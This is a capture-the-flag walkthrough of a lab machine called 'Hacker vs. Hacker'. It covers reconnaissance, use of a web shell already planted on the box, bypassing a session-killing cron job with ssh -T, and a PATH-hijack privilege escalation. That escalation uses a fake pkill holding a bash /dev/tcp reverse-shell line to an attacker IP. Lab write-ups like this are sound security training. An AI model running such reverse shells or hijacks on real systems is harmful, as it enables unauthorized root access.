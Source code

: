 # Hacker vs. Hacker

We start with Nmap

`nmap -sC -sV 10.10.54.39` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image.png)

Looking at the webpage we find a file upload section. We quickly upload our `php-reverse-shell.php` file.

![page.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/page.png)

But we get back a message.

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%201.png)

Looking at the source code we find a code snippet for filtering uploads. The code verifies if there is “.pdf“ in the file name and the directory where the uploaded files are stored : `cvs/` . 

![source.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/source.png)

A change to our filename to `php-reverse-shell.pdf.php`  and upload. Still gets back the same message. Next we try opening the cvs directory. But directory listing is disabled.

![cvs.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/d0e66d33-c935-4abc-9f7c-507692cd8794.png)

We try fuzzing the directory for files with extension `.pdf.php` , to see if our file has been uploaded.

`ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -u [http://10.10.54.39/cvs/FUZZ](http://10.10.54.39/cvs/FUZZ) -e .pdf.php -t 100`

To our surprise we see another file  `shell.pdf.php` . Since the story behind the machine is that it has already been exploited and we are trying to regain control, existence of such a file is possible.

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%202.png)

Running commands on that file returns results as expected.

[`http://10.10.54.39/cvs/shell.pdf.php?cmd=ls](http://10.10.54.39/cvs/shell.pdf.php?cmd=ls);`

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%203.png)

Retrieving the `/etc/passwd`  file reveals the username `lachlan` .

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%204.png)

And we get the first flag from the users folder.

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%205.png)

Reading the `.bash_history` file shows a cron job `persistence`  and an attempt to change password.

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%206.png)

Using the username and password we were able to login using SSH. But even before being able to run any commands we were getting kicked out along with a message “nope”. This might be the cron job the hacker has implemented to maintain persistence.

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%207.png)

Looking at it we can see the path being set to `/home/lachlan/bin`  as the first one. (Not a good idea!)

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%208.png)

Quick search and got a breakdown on the code:

/bin/sleep 1 → Delay for 1 second

for f in `/bin/ls /dev/pts` → loop all active pseudo terminal sessions

do /usr/bin/echo nope > /dev/pts/$f  → echo msg nope to all those sessions

pkill -9 -t pts/$f → kill those sessions

Since pseudo terminal sessions are killed, we disable it while logging in. 

We use -T flag of `ssh` , 

`-T      Disable pseudo-tty allocation`

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%209.png)

We get a shell not interactive like bash or sh, but still can run commands.

The hacker is using `pkill` to kill the sessions and the file path given first is `/home/lachlan/bin` . Since the process start checking the path from left to right it will be checking `/home/lachlan/bin` first, which we can control. So we create our own `pkill` , which is a reverse shell to our attacker machine.

`echo "bash -c 'bash -i >& /dev/tcp/10.17.17.47/9001 0>&1'" > pkill` 

`chmod  +x pkill` 

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%2010.png)

The process is run as root. So we get a root shell back.

![image.png](Hacker%20vs%20Hacker%201ba2d0541948801aa7d0ffadcba25ce4/image%2011.png)